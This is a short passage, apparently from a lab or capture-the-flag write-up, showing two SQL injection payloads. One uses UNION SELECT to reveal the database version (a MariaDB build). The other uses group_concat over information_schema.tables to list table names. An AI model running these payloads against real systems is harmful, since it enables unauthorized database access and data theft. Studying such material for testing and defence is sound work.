 ![](./IMG/19.png)
```
' AND 1=1 UNION SELECT 1,@@version,3-- -
```
- DB : 10.5.15-MariaDB-0+deb11u1

![](./IMG/20.png)
- Query Table syntax
```
' and 1=2 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables-- -
```
